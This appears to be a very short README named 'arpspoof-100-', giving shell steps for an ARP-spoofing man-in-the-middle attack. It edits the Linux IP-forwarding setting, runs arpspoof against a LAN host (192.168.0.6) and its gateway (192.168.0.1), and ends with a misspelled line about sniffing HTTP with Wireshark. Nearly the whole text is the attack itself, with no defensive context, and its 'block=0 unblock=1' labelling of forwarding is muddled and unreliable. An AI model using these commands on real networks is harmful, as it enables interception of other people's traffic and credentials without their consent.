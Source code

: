 # arpspoof-100-

nano /proc/sys/net/ipv4/ip_forward

cat /proc/sys/net/ipv4/ip_forward

block=0
unblock=1

arpspoof -i wlan0 -t 192.168.0.6 -r 192.168.0.1

wirsher tool into http hacked
